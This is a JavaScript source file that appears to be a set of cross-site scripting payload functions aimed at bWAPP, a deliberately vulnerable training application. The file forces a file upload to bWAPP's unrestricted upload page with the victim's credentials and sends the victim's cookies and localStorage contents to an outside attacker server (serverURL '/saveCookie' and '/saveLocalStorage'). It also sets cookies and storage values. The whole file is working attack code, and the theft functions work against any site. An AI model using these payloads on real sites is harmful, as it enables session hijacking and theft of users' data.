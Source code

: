 ```

function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

function fileUpload() {

    var b64file = base64File
    var blob = base64toBlob(b64file, contentType);
    
    var formData = new FormData();
    formData.append('file', blob, uploadFileName);
    formData.append('MAX_FILE_SIZE', 10);
    formData.append('form','Upload');
    
    var urlOfThePage = window.location.protocol + "//" + window.location.host
    var url = urlOfThePage + '/bWAPP/unrestricted_file_upload.php';
    xhr = new XMLHttpRequest();
    xhr.open('POST', url);
    xhr.withCredentials = "true";
    
    xhr.send(formData);
}

function getCookie() {
    var url = serverURL + "/saveCookie";
    var body = "a=" + document.cookie;
    xr = new XMLHttpRequest();
    xr.open("POST", url, true);
    xr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")
    xr.send(body);
}

function setCookie() {
    document.cookie = key + "=" + value; 
}

function getLocalStorage() { 
    var data = window.localStorage.getItem(key);
    var i=new Image;
    i.src= serverURL + "/saveLocalStorage?a=" +data;
}

function setLocalStorage() { 
    localStorage.setItem(key, value)
}
```